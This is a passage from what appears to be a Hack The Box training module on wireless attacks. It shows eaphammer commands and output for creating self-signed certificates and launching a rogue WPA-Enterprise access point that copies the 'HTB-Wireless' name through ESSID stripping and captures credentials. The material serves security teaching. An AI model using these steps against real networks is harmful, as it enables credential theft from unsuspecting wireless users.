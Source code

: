 <p>First, we need to create self-signed certificates that eaphammer will use to set up our fake access point. This can be done using the <code>--cert-wizard</code> command.</p>
<pre><code class="language-shell-session">[!bash!]$ /opt/eaphammer/eaphammer --cert-wizard

                     .__                                         
  ____ _____  ______ |  |__ _____    _____   _____   ___________ 
_/ __ \\__  \ \____ \|  |  \\__  \  /     \ /     \_/ __ \_  __ \
\  ___/ / __ \|  |_&gt; &gt;   Y  \/ __ \|  Y Y  \  Y Y  \  ___/|  | \/
 \___  &gt;____  /   __/|___|  (____  /__|_|  /__|_|  /\___  &gt;__|   
     \/     \/|__|        \/     \/      \/      \/     \/       


                        Now with more fast travel than a next-gen Bethesda game. &gt;:D

                             Version:  1.14.0
                            Codename:  Final Frontier
                              Author:  @s0lst1c3
                             Contact:  gabriel&lt;&lt;at&gt;&gt;transmitengage.com

    
[?] Am I root?
[*] Checking for rootness...
[*] I AM ROOOOOOOOOOOOT
[*] Root privs confirmed! 8D
[*] Please enter two letter country code for certs (i.e. US, FR)
: US
[*] Please enter state or province for certs (i.e. Ontario, New Jersey)
: California
[*] Please enter locale for certs (i.e. London, Hong Kong)
: San Fransisco
[*] Please enter organization for certs (i.e. Evil Corp)
: Hack The Box
[*] Please enter org unit for certs (i.e. Hooman Resource Says)
: HTB
[*] Please enter email for certs (i.e. <a class="__cf_email__" data-cfemail="c7a4bea5a2b5bd87aff3bff7b5e9abb2abbd" href="/cdn-cgi/l/email-protection">[email protected]</a>)
: <a class="__cf_email__" data-cfemail="7c1d181115123c14081e521f1311" href="/cdn-cgi/l/email-protection">[email protected]</a>
[*] Please enter common name (CN) for certs.
: HTB
[CW] Creating CA cert and key pair...
[CW] Complete!
[CW] Writing CA cert and key pair to disk...
[CW] New CA cert and private key written to: /opt/eaphammer/certs/ca/HTB.pem
[CW] Complete!
[CW] Creating server private key...
[CW] Complete!
[CW] Using server private key to create CSR...
[CW] Complete!
[CW] Creating server cert using CSR and signing it with CA key...
[CW] Complete!
[CW] Writing server cert and key pair to disk...
[CW] Complete!
[CW] Activating full certificate chain...
[CW] Complete!
</code></pre>
<p>Once our self-signed certificates are created, we can use the following command to start our fake access point. We’ll set the ESSID stripping option to <code>\x20</code>, which will create a rogue AP with an extra space at the end of the name. Alternatively, we can use <code>\x00</code> or <code>\t</code>, which will also create a rogue AP that appears similar in the UI.</p>
<pre><code class="language-shell-session">[!bash!]$ /opt/eaphammer/eaphammer -i wlan1 --auth wpa-eap --essid HTB-Wireless --creds --negotiate balanced  --essid-stripping '\x20'
